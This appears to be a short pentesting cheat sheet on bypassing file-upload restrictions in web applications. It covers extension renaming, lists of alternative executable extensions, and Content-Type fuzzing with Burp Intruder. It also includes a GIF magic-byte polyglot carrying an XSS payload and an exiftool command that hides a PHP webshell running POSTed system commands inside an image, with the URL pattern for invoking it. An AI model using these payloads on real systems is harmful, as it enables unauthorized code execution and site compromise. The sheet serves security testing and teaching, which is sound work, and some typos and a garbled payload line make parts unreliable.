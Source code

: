 # Exploiting File Upload Functionality
> Tips and tricks for exploiting the ability to upload a file to a web application. 

#### Quick Checks
- [ ] is the app checking the file extension
- [ ] is the app checking the Content-Type header
- [ ] is the app checking the magic bytes of the file uploaded
- [ ] is the app adding the expected file extension to the end automatically? 
- [ ] is the app using a denylist of extensions?

### Exploits
- The app is just looking to see if the extension is accepted:
	- rename your file -> revshell.jpg.php, revshell.jpg.php
	- (LESS COMMON) rename the file so the valid extension is last -> revshell.php.jpg

- The app is only checking for base file extensions: 
	- PHP -> _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc
	- JSP -> .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
	- Perl -> pl, .cgi
		- rename file with any of above -> Ex: revhsell.php7

- Modify the Content-Type header: 
	- will it accept text/plain, appplication/octet-stream, text/html...? 
	- paste [this payload list](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt) into burp intruder and Content-Type as the payload position to see what content-types are accepted

- if the app is checking the magic bytes of the uploaded file
	-  edit the magic bytes to appear as another file type
	- Example, impersonating a GIF file with magic bytes: 
		- ```echo GIF89a/*.....,..../*.....;*/*=1;\alert(\test\);\; > fake.gif```
		- stores an XSS payload into a valid GIF file
	- Put a PHP webshell into an image with exiftool: 
		-  ```exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg```
			- request the webshell w/ command URL parameter -> ```http://[ip]/upload/location/img.jpg?cmd=ls```








